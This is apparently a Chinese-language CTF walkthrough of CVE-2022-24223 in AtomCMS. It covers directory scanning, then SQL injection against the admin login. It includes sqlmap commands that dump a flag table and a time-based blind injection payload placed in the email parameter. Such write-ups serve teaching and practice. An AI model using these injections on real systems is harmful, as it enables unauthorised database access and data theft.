

# CVE-2022-24223
首先随便传个参数id=1,发现页面发生变化


显示了请求路径和请求方式和参数
首先扫一下目录,扩大攻击面

发现可疑目录/admin/index.php,访问后来到登录界面,直接尝试sql注入

首先抓包简单测试一下1',没有任何信息回显,可能需要盲注了,先放sqlmap测试
```
python sqlmap.py -r C:\Users\29752\Desktop\domain.txt --dbs --batch
```

最终:
```
python sqlmap.py -r C:\Users\29752\Desktop\domain.txt -D atomcms -T flag -C flag --dump --batch
```

这里sqlmap用了时间盲注和union联合注入
测试一下时间盲注:
```
email=1' or if(database()='atomcms',sleep(5),1)#&password=1
```
可以看到响应时间明显发生了变化:


